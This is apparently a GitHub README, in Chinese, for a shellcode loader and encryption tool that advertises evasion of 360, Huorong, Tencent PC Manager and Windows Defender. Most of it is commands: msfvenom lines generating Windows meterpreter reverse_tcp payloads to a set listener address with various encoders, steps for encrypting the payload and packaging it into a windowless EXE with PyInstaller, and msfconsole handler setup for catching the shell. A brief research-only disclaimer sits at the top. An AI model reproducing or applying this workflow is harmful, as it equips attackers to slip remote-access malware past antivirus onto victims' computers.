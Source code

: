 # ShellCode_Loader
ShellCode_Loader - Msf&amp;CobaltStrike免杀ShellCode加载器、Shellcode_encryption - 免杀Shellcode加密生成工具，目前测试免杀360&amp;火绒&amp;电脑管家&amp;Windows Defender（其他杀软未测试）。
# 声明
该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！
代码未经过大量测试，如发现问题请提交 issue。
# 测试环境
截至2022年9月3日测试时Windows 10 可免国内杀软：火绒&360&电脑管家及Windows Defender（其他杀软自测）

Windows 7 64位 或以上操作系统应该都没问题（没有测试）
# 生成Msf_Payload
### 默认
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload.c

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f py -o  payload_py.c
```
### XOR 编码器
```
msfvenom -e x64/xor -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor.c
```
### 动态密钥XOR编码器
```
msfvenom -e x64/xor_dynamic -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor_dynamic.c
```
### Zutto Dekiru
```
msfvenom -e x64/zutto_dekiru -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_zutto_dekiru.c
```
# 生成CobaltStrike_Payload
![图片](https://user-images.githubusercontent.com/34683107/188174674-0761d510-264f-47b0-85ea-be5566c0d3f1.png)

选择使用x64的C语言或Python语言的Shellcode。

![图片](https://user-images.githubusercontent.com/34683107/188174724-ddbe398b-d378-4336-a79a-6a7e406659a4.png)

得到一个payload.c的文件
内容为：

![图片](https://user-images.githubusercontent.com/34683107/188174894-5e3795b5-bb61-4f59-9b73-4cc371569387.png)
# 加密Payload
```
Shellcode_encryption.exe    payload.c
```
![图片](https://user-images.githubusercontent.com/34683107/188175988-d1de1fba-d7ea-4349-acf4-1c7de44d6ad7.png)

# 配置ShellCode加载器
将生成的密文ShellCode 填至 ShellCode_Loader.py 里的 Data = '密文Shellcode' 处
示例：
![图片](https://user-images.githubusercontent.com/34683107/188174998-22cdbaa6-80b2-457b-bfd1-0419ca0816c4.png)
最终格式：
![图片](https://user-images.githubusercontent.com/34683107/188175071-d1396239-5f8f-4fdb-b750-80e2ac6fabd1.png)
# 打包可执行程序(EXE编译环境)
Python 3.8.6

pyinstaller 4.7
```
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
pyinstaller -F -w ShellCode_Loader.py
```
生成ShellCode_Loader.exe在dist目录中
# 上线测试
## 运行监听
```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```
![图片](https://user-images.githubusercontent.com/34683107/188175266-31ca4e0b-bb8a-4863-a958-065330c500af.png)
![图片](https://user-images.githubusercontent.com/34683107/188175368-ab9d2f0f-2f92-42ca-b8d6-6980d84d3e51.png)
帮忙点个Star 谢谢
# 感谢阅读
![图片](https://user-images.githubusercontent.com/34683107/188175429-58a71c93-a603-408f-ac9b-c0b616b6467c.png)

